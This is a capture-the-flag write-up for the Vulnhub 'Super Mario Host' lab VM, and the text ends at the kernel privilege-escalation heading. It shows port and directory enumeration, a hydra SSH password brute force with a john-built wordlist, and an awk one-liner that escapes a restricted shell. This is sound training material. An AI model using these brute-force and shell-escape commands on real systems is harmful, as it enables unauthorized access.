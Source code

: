 ```yaml
---
title: Vulnhub - Super Mario Host
description: My writeup on Super Mario Host box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://static.posters.cz/image/750/%CE%91%CF%86%CE%AF%CF%83%CE%B5%CF%82/super-mario-characters-i22822.jpg)

Hi all, Let's pwn it!

You can find the machine there > [Super Mario Host](https://www.vulnhub.com/entry/super-mario-host-101,186/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.6
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 00:44 EEST
Nmap scan report for mario.supermariohost.local (192.168.1.6)
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1c:97:c0:06:3b:cb:4f:6f:0f:65:8d:37:82:c4:23:59 (DSA)
|   2048 45:2d:fe:04:bb:98:ed:00:d7:7b:36:da:8f:cf:44:1c (RSA)
|   256 09:5c:25:9d:5c:54:ae:8d:90:e3:44:9b:5e:a1:4d:e0 (ECDSA)
|_  256 c9:d5:6a:32:53:ab:8a:43:74:4b:85:fb:a0:ba:40:52 (ED25519)
8180/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Mario
MAC Address: 00:0C:29:DF:8C:2E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we visit the site, we get the default nginx page :

![](https://i.imgur.com/OW6e7me.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster1.txt
/vhosts (Status: 200)
/server-status (Status: 403)
```

`/vhosts` has a virtual host file :

```
<VirtualHost *:80>

	ServerName mario.supermariohost.local
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/supermariohost
	DirectoryIndex mario.php

	ErrorLog ${APACHE_LOG_DIR}/supermariohost_error.log
	CustomLog ${APACHE_LOG_DIR}/supermariohost_access.log combined
 
</VirtualHost>
```

`ServerName mario.supermariohost.local` is the domain, let's add it at `/etc/hosts`

```
$ cat /etc/hosts
192.168.1.6     mario.supermariohost.local
```

Perfect, now if we browser the website with the domain name we can see a different page : 

![](https://i.imgur.com/GuqIVTU.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://mario.supermariohost.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt -o gobuster2.txt
/mario.php (Status: 200)
/command.php (Status: 200)
/luigi.php (Status: 200
```

I did some enumeration on them & the only things i found useful are the usernames `mario` & `luigi` we can do SSH brute force with them.

We should craft first a wordlist using `john`, i'll use the `Wordlist` rule on the 2 usernames.

## SSH brute force - Shell as luigi - Bypassing limited shell

```
$ touch usernames.txt
$ printf "mario\nluigi" > usernames.txt 
$ john -wordlist:usernames.txt -rules:Wordlist -stdout > wordlist.txt
$ hydra -L usernames.txt -P wordlist.txt $ip ssh

[DATA] attacking ssh://192.168.1.6:22/
[STATUS] 97.00 tries/min, 97 tries in 00:01h, 114 to do in 00:02h, 16 active
[22][ssh] host: 192.168.1.6   login: luigi   password: luigi1
```
`
Let's login in!

```
$ ssh luigi@$ip
luigi@192.168.1.6's password: 
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
luigi:~$ 
```

We're in a limited shell :

```
luigi:~$ echo $SHELL
*** forbidden path: /usr/bin/lshell
``` 

Let's check what command we can run :

```
luigi:~$ ?
awk  cat  cd  clear  echo  exit  help  history  ll  lpath  ls  lsudo  vim
```

We can exploit `awk` and open a normal `bash/sh` shell.

```
luigi:~$ awk 'BEGIN {system("/bin/bash")}'
luigi@supermariohost:~$ whoami
luigi
```

## Kernel privilege escalation
